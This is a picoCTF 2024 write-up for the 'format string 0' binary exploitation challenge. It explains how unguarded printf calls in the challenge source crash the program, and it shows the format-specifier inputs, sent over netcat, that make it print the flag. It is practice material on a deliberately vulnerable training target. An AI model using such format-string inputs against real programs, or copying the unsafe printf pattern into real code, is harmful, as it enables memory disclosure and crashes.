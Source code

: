 # format string 0

- [Challenge information](#challenge-information)
- [Solution](#solution)
- [References](#references)

## Challenge information

```text
Level: Easy
Tags: picoCTF 2024, Binary Exploitation, format_string, browser_webshell_solvable
Author: CHENG ZHANG

Description:
Can you use your knowledge of format strings to make the customers happy?

Download the binary here.
Download the source here.

Connect with the challenge instance here:
nc mimas.picoctf.net 58598
 
Hints:
1. This is an introduction of format string vulnerabilities. Look up "format specifiers" 
   if you have never seen them before.
2. Just try out the different options
```

Challenge link: [https://play.picoctf.org/practice/challenge/433](https://play.picoctf.org/practice/challenge/433)

## Solution

### Analyse the C file

We start by analysing the rather long C source code. First the `main` function.

```c
int main(int argc, char **argv){
    FILE *f = fopen("flag.txt", "r");
    if (f == NULL) {
        printf("%s %s", "Please create 'flag.txt' in this directory with your",
                        "own debugging flag.\n");
        exit(0);
    }

    fgets(flag, FLAGSIZE, f);
    signal(SIGSEGV, sigsegv_handler);

    gid_t gid = getegid();
    setresgid(gid, gid, gid);

    serve_patrick();
  
    return 0;
}
```

Main basically does the following:

- Make sure there is a `flag.txt` file available,
- Sets up a signal handler for `SIGSEGV` (Invalid memory references)
- Sets permissions (user and group IDs) with `setresgid`
- Calls the `serve_patrick` function

If an invalid memory reference happens the `sigsegv_handler` function is called

```c
void sigsegv_handler(int sig) {
    printf("\n%s\n", flag);
    fflush(stdout);
    exit(1);
}
```

and will display the flag for us.

Let's skip the rest of the source code for now and try out the binary.

### Run the binary locally

Next, we run the binary

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ ./format-string-0  
Please create 'flag.txt' in this directory with your own debugging flag.

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ echo "picoCTF{fake_flag}" > flag.txt                                        

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ ./format-string-0                  
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak

picoCTF{fake_flag}


┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ 
```

Of the choices I chose `Gr%114d_Cheese` and `Cla%sic_Che%s%steak` because the both contains [format specifiers](https://www.freecodecamp.org/news/format-specifiers-in-c/) which will cause the program to remove additional items on [the stack](https://en.wikipedia.org/wiki/Stack-based_memory_allocation) and cause an invalid memory reference.

The vulnerabilities are in the `printf` calls without one or more format specifiers, i.e.

- The line `int count = printf(choice1);` in the `serve_patrick` function and
- The line `printf(choice2);` in the `serve_bob` function

### Get the flag

Finally, we connect to the site vith netcat and gives the same answers to get the real flag

```bash
┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ nc mimas.picoctf.net 58598
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{<REDACTED>}

┌──(kali㉿kali)-[/mnt/…/picoCTF/picoCTF_2024/Binary_Exploitation/format_string_0]
└─$ 
```

For additional information, please see the references below.

## References

- [Format Specifiers in C - freeCodeCamp](https://www.freecodecamp.org/news/format-specifiers-in-c/)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [setresuid - Linux manual page](https://man7.org/linux/man-pages/man2/setresuid.2.html)
- [signal - Linux manual page](https://man7.org/linux/man-pages/man7/signal.7.html)
- [Stack-based memory allocation - Wikipedia](https://en.wikipedia.org/wiki/Stack-based_memory_allocation)
- [Uncontrolled format string - Wikipedia](https://en.wikipedia.org/wiki/Uncontrolled_format_string)
